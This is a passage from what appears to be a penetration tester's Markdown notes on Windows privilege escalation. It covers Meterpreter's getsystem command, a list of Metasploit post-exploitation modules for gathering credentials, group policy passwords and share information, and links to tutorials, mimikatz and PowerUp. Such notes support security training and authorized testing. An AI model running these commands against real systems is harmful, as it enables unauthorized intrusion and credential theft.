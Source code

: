 ```
vdmallowed.exe
vdmexploit.dll
```

### Using Metasploit

So if you have a metasploit meterpreter session going you can run `getsystem`.

## Post modules

Some interesting metasploit post-modules

First you need to background the meterpreter shell and then you just run the post modules.  
You can also try some different post modules.

```
use exploit/windows/local/service_permissions

post/windows/gather/credentials/gpp

run post/windows/gather/credential_collector 

run post/multi/recon/local_exploit_suggester

run post/windows/gather/enum_shares

run post/windows/gather/enum_snmp

run post/windows/gather/enum_applications

run post/windows/gather/enum_logged_on_users

run post/windows/gather/checkvm
```

## References

[http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)  
[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)  
[https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)  
[http://it-ovid.blogspot.cl/2012/02/windows-privilege-escalation.html](http://it-ovid.blogspot.cl/2012/02/windows-privilege-escalation.html)  
[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
[http://bernardodamele.blogspot.cl/2011/12/dump-windows-password-hashes.html](http://bernardodamele.blogspot.cl/2011/12/dump-windows-password-hashes.html)  
[https://www.youtube.com/watch?v=kMG8IsCohHA&feature=youtu.be](https://www.youtube.com/watch?v=kMG8IsCohHA&feature=youtu.be)  
[https://www.youtube.com/watch?v=PC\_iMqiuIRQ](https://www.youtube.com/watch?v=PC_iMqiuIRQ)  
[http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)  
[https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)  
[http://pwnwiki.io/\#!privesc/windows/index.md](http://pwnwiki.io/#!privesc/windows/index.md)

